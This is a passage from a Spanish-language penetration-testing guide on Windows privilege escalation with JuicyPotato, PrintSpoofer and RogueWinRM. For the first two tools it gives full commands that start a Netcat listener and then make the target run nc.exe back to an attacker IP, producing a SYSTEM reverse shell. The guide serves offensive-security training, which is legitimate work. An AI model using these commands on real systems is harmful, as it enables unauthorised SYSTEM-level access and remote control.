 Sin embargo, esta herramienta tiene limitaciones: funciona en versiones de Windows hasta Windows Server 2016 y Windows 10, compilación 1809.

**Pasos para explotar el uso de JuicyPotato**:

1. **Configurar el listener con Netcat en la máquina atacante**:

```bash
rlwrap nc -lnvp 4444
```

2. **Ejecutar JuicyPotato en la máquina objetivo**:

```bash
c:\temp\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\temp\nc.exe 192.168.56.5 4444 -e cmd.exe" -t *
```

Explicación:

- `-l`: Especifica el puerto de escucha del servidor COM (53375 en este caso).
- `-p`: Programa a lanzar (en este caso, cmd.exe).
- `-a`: Argumento pasado a cmd.exe. Aquí, le indica a Netcat que se conecte a la máquina atacante y proporcione una reverse shell.
- `-t`: Especifica el `createprocess` a llamar, utilizando las funciones `CreateProcessWithTokenW` o `CreateProcessAsUser`, que requieren privilegios **SeImpersonate** o **SeAssignPrimaryToken**.

###### PrintSpoofer

> *Windows 10 (todas las versiones, incluidas las compilaciones posteriores a 1809) y Windows Server 2012/2016/2019*

> https://github.com/itm4n/PrintSpoofer

**PrintSpoofer** abusa del servicio **Spooler** de impresión de Windows y su interacción con named pipes (tuberías con nombre) para escalar privilegios. Explota una combinación de características y comportamientos del sistema operativo que permiten a un atacante suplantar el token de seguridad de un proceso que se ejecuta como SYSTEM.

**Pasos para explotar el código usando PrintSpoofer**:

1. Ejecutar PrintSpoofer:

```powershell
c:\temp\PrintSpoofer.exe -c "c:\temp\nc.exe 192.168.56.5 4444 -e cmd"
```

Explicación:

- `-c`: Especifica el comando que se ejecutará una vez que la escalada de privilegios sea exitosa. En este caso, se ejecuta Netcat (nc.exe) para proporcionar una reverse shell a la máquina atacante. 

###### RogueWinRM

> *Windows 10 (todas las versiones, incluidas las compilaciones posteriores a 1809) y Windows Server 2012/2016/2019*

> https://github.com/antonioCoco/RogueWinRM

**RogueWinRM** es una técnica de explotación que permite la escalada de privilegios en sistemas Windows aprovechando el servicio WinRM (Windows Remote Management). A diferencia de JuicyPotato, que se basa en la reflexión DCOM/NTLM, RogueWinRM abusa del servicio WinRM para ejecutar código con privilegios de SYSTEM. Esta técnica es particularmente útil en entornos donde JuicyPotato no funciona, como en Windows Server 2019 y versiones más recientes de Windows 10.
